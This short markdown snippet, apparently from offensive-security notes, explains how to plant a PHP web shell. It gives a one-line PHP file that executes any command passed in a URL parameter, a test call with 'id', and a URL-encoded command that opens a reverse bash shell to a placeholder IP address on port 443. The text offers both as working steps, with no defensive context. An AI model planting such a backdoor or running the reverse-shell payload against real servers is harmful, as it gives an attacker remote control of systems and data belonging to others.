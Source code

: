 ## webshell

write a file with the following content:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

call the file with the parameter `?cmd=id` to check if it worked then exploit:
```bash
?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F443%200%3E%261%22
```